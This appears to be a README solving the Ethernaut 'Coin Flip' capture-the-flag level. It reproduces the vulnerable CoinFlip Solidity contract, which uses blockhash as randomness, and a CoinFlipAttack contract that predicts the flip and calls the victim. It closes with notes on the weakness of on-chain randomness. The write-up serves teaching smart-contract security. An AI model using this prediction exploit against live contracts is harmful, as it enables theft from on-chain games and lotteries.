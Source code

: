 ## Ethernaut-solution
---

### 3.Coin Flip  
 *Filiping => used for emphasis or to express mild annoyance.<br>
 *consective => following each other continuously.

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the Help page above, section "Beyond the console"

```solidity
/CoinFlip.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }
 //[global function and global variable](https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties)
  
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

```solidity
/CoinFlipAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {

  CoinFlip public victimContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _victimContractAddr) public {
    victimContract = CoinFlip(_victimContractAddr);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(blockValue/FACTOR);
    bool side = coinFlip == 1 ? true : false;
    victimContract.flip(side);
  }
}
```

---

Level completed!
Difficulty 3/10

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
















